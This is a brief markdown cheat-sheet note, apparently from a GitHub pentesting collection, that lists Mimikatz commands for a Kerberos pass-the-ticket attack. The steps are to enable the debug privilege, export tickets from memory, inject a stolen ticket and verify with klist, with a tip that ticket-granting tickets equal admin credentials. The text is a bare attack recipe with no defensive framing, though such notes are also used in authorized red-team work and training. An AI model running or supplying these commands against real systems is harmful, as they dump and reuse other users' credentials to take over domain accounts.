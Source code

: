 ### Tool: Mimikatz


#### 1) privilege::debug

#### 2) sekurlsa::tickets /export

#### 3) kerberos::ptt TICKET.kirbi

#### klist

### TIP: TGTs = Admin Credentials.

#### Access to any service the user is allowed to access.

### TGSs=Low-privileged account
